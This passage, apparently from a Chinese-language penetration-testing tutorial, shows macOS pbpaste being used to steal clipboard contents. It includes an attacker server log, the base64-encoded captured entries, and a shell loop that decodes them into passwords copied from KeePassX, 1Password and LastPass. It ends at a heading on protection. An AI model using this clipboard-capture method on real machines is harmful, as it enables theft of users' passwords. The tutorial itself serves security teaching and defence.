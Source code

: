 [Sun Jun  9 09:03:23 2019] 23.129.64.153:63761 [200]: /
[Sun Jun  9 09:03:33 2019] 23.129.64.153:46089 [200]: /
[Sun Jun  9 09:03:50 2019] 23.129.64.184:13728 [200]: /
[Sun Jun  9 09:03:56 2019] 199.195.250.77:38894 [200]: /
[Sun Jun  9 09:04:02 2019] 199.195.250.77:40646 [200]: /
[Sun Jun  9 09:04:10 2019] 209.141.58.114:45602 [200]: /</code></pre>
  <p class="graf graf--p">
   用
   <strong class="markup--strong markup--p-strong">
    cat
   </strong>
   查看 clipboard.txt 内容，找到加密的密码。KeePassX 和 1Password 分别在10秒和30秒后自动清除剪贴板。LastPass 则表示 “在默认时间后” 会清除剪贴板。来自 MacBook 的空交付出现 “Cg==” 编码。
  </p>
  <pre class="graf graf--pre"><code class="markup--code markup--pre-code">~/phpServer# cat clipboard.txt

WVQ0bjNNNHNDcGpwc1RWN0xrWm9LCg==
Cg==
dGhpcyBpcyBteSBwYXNzd29yZAo=
UHdVN1YzWzg3a3ZUPyNed01QKF9jVHltNj8iPjoifTp7Kl5gYH4K
WVQ0bjNNNHNDcGpwc1RWN0xrWm9LCg==
Cg==
WVQ0bjNNNHNDcGpwc1RWN0xrWm9LCg==</code></pre>
  <p class="graf graf--p">
   下面的命令将自动解码 clipboard.txt 文件中所有的base64字符串。以下所有字符串都是使用 KeePassX、1Password 和 LastPass 时被捕获的密码。
  </p>
  <pre class="graf graf--pre"><code class="markup--code markup--pre-code">~/phpServer# cat clipboard.txt | while read -r password; do base64 -d &lt;&lt;&lt; "$password"; done

YT4n3M4sCpjpsTV7LkZoK

this is my password
PwU7V3[87kvT?#^wMP(_cTym6?"&gt;:"}:{*^``~
YT4n3M4sCpjpsTV7LkZoK

YT4n3M4sCpjpsTV7LkZoK</code></pre>
  <h3 class="graf graf--p">
   <span style="color: #339966;">
    <strong class="markup--strong markup--p-strong">
     最后
    </strong>
   </span>
  </h3>
  <p class="graf graf--p">
   我们鼓励渗透测试人员尽可能多地利用被入侵的操作系统中已经存在的资源（即 “靠山吃山”）。像 cURL、Netcat、Bash 和 LibreSSL 一样，pbpaste 是
   <a class="markup--anchor markup--p-anchor" data-href="https://ss64.com/osx/" href="https://ss64.com/osx/" rel="noopener noreferrer" target="_blank">
    另一个
   </a>
   内置工具，很容易被黑客滥用。
  </p>
  <p class="graf graf--p">
   <iframe allowfullscreen="allowfullscreen" height="449" src="//www.youtube.com/embed/j-r6UonEkUw" width="800">
   </iframe>
  </p>
  <p class="graf graf--p">
   攻击者会探索各种途径来发现目标的登录密码。Pbpaste 让转储在密码管理器中的凭证几乎变得非常容易。
  </p>
  <h3 class="graf graf--p">
   <span style="color: #339966;">
    <strong class="markup--strong markup--p-strong">
     📌 如何保护自己免受剪贴板攻击的侵害
    </strong>